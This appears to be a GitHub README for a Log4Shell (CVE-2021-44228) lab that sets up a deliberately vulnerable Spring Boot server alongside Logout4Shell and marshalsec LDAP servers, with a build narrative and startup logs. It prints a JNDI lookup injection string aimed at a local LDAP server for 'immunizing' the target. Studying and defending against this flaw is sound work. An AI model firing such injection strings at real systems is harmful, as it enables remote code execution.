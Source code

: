# oregon

Project to look at [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Structure

Naming convention for our stuff will be Oregon cities, we'll keep the names of copied code from cybereason and mbechler.

* oregon Our parent project.
* [ashland](ashland/README.md) Our vulnerable server.
* [logout4shell](logout4shell/README.md) Copied [Logout4Shell](https://github.com/Cybereason/Logout4Shell) vaccination server.
* [marshalsec](marshalsec/README.md) Copied marshalsec ldap server.



## Immunize



    ${jndi:ldap://localhost:1389/a}



## Narrative


Log4j bug.  I suppose the first thing to do, to understand what is going on, is to set up a vulnerable server.

We'll call it ashland, and it will be a spring boot Java server with a vulnerable Log4J version.

We'll make it easy to exploit, by not validating fields, and logging whatever is entered.

Now that we have a vulnerable server, let's set up the vaccination servers.

We'll need a [pre-8.121 JDK](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html), say
8.112, found [here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).

Still not able to [exploit](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot).

We'll need to [update](https://docs.spring.io/spring-boot/docs/current/reference/html/howto.html#howto.logging.log4j) the default logging in Spring.

.... and that did the trick:


      .   ____          _            __ _ _
     /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
    ( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
     \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
      '  |____| .__|_| |_|_| |_\__, | / / / /
     =========|_|==============|___/=/_/_/_/
     :: Spring Boot ::                (v2.6.0)
    
    2021-12-12 09:30:37.577  INFO 18077 --- [           main] c.p.a.App                                : Starting App using Java 1.8.0_112 on pan000 with PID 18077 (/home/karl/w/oregon/ashland/target/classes     started by karl in /home/karl/w/oregon/ashland)
    2021-12-12 09:30:37.583  INFO 18077 --- [           main] c.p.a.App                                : No active profile set, falling back to default profiles: default
    2021-12-12 09:30:38.348  INFO 18077 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat initialized with port(s): 8080 (http)
    2021-12-12 09:30:38.362  INFO 18077 --- [           main] o.a.c.c.StandardService                  : Starting service [Tomcat]
    2021-12-12 09:30:38.362  INFO 18077 --- [           main] o.a.c.c.StandardEngine                   : Starting Servlet engine: [Apache Tomcat/9.0.55]
    2021-12-12 09:30:38.406  INFO 18077 --- [           main] o.a.c.c.C.[.[.[/]                        : Initializing Spring embedded WebApplicationContext
    2021-12-12 09:30:38.406  INFO 18077 --- [           main] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 795 ms
    2021-12-12 09:30:38.728  INFO 18077 --- [           main] o.s.b.a.w.s.WelcomePageHandlerMapping    : Adding welcome page template: index
    2021-12-12 09:30:38.862  INFO 18077 --- [           main] o.s.b.a.e.w.EndpointLinksResolver        : Exposing 1 endpoint(s) beneath base path '/actuator'
    2021-12-12 09:30:38.892  INFO 18077 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat started on port(s): 8080 (http) with context path ''
    2021-12-12 09:30:38.906  INFO 18077 --- [           main] c.p.a.App                                : Started App in 1.619 seconds (JVM running for 2.076)
    2021-12-12 09:30:50.077  INFO 18077 --- [nio-8080-exec-1] o.a.c.c.C.[.[.[/]                        : Initializing Spring DispatcherServlet 'dispatcherServlet'
    2021-12-12 09:30:50.077  INFO 18077 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
    2021-12-12 09:30:50.078  INFO 18077 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
    Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True, current value is false



